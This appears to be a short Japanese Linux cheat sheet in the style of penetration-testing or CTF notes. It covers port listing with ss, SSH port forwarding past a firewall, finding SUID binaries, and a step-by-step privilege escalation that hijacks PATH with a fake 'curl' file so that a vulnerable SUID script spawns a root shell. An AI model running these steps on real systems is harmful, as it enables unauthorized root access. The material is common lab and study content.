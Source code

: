 ### TCP/UDPのポート開放状態を確認したいとき  
#### ss -nltup  
-n : ポート番号をサービス名変換しない(例えば:httpと表示せず:80と表示する)  
-l : Listen(待ち受け)ポートのみを表示する  
-t : TCP を表示する  
-u : UDP を表示する  
-p を付けて "ss -nltup" を実行すると、どのプロセスがそのポートを開放しているのかが分かります。  

### SSHのファイヤーウォールを超えて外部から目的サーバにアクセスする  
SSH の機能の内の一つであるポートフォワーディングを使ってトンネルを掘ることによって, ファイヤーウォールを超えて外部から目的サーバにアクセスすることができる  
```$ ssh -L (ローカルで使用するポート):(目的サーバのアドレス):(目的サーバで待ち受けてるポート番号) ユーザ名@IPアドレス```  

### SUIDの探索
``` find / -perm -u=s -type f 2>/dev/null ```

### フルパスでないコマンドが入っているSUIDなシェルスクリプトから権限昇格する
例えば以下のようなコマンドを実行するシェルスクリプト(/usr/bin/menu)があったとする
```curl -I localhost```

1."/bin/sh"という文字列をcurlというファイルに出力する
2.生成されたcurlファイルに対してchmodで777にしてあげる
3.環境パスを現在のディレクトリにする
4.脆弱性のあるシェルスクリプトを実行すると権限昇格

以下が権限昇格の具体的な手順
```
echo /bin/sh > curl
chmod 777 curl
export PATH=現在のディレクトリ:$PATH
/usr/bin/menu
```
